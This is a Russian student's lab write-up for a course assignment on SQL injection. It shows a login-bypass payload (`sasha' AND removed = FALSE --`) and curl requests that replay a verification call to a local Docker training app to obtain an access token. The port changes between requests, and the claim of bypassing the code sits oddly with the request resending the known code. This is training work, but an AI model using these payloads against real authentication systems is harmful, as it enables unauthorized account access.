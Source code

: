 # 05.03.01. SQL и транзакции - Лебедев Д.С.
https://github.com/netology-code/ibweb-homeworks/blob/master/03_sql/README.md

[Задание .pdf](_att/050301/050301_Домашнее%20задание%20к%20занятию%20«1.3.%20SQL%20и%20транзакции».pdf)
### Задание «Логин и пароль»

1. После запуска контейнера смотрим логи БД в реальном времени, команда `docker logs -f 050301-db-1`. При попытке авторизации с известным логином и рандомным паролем в логах появляется:

![](_att/050301/050301-01-01.png)  

Теперь известна точная структура SQL-запроса:
- Таблица: users
- Поля: login, password, removed
- Пароль хранится в хешированном виде
- Дополнительное условие: removed = FALSE

2. Готовим SQL-инъекцию с любым паролем:

```
sasha' AND removed = FALSE --
```

Результат - SQL-инъекция успешно обошла проверку пароля:

![](_att/050301/050301-01-02.png)  

Система:
- Приняла инъекцию
- Нашла пользователя sasha
- Пропустила проверку пароля
- Сгенерировала код подтверждения `7002`
- Перевела на следующий экран с подтверждением кода

### Код подтверждения*

Браузер при вводе кода `7002` (получен в первом задании) отправляет данные:

```sh
curl 'http://localhost:8888/api/auth/verification' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate, br, zstd' \
  -H 'Referer: http://localhost:8888/verification' \
  -H 'Content-Type: application/json' \
  -H 'Origin: http://localhost:8888' \
  -H 'Connection: keep-alive' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Priority: u=0' \
  --data-raw $'{"login":"sasha\' AND removed = FALSE --","code":"7002"}'
```

Модифицируем запрос для обхода проверки кода:

```sh
curl 'http://localhost:9999/api/auth/verification' \
  -H 'Content-Type: application/json' \
  --data-raw $'{"login":"sasha","code":"7002"}'
```

Итог - cURL запрос, который позволяет получить токен доступа без знания кода верификации:

![](_att/050301/050301-01-03.png)

---
```
инъекции верны, принимается!
```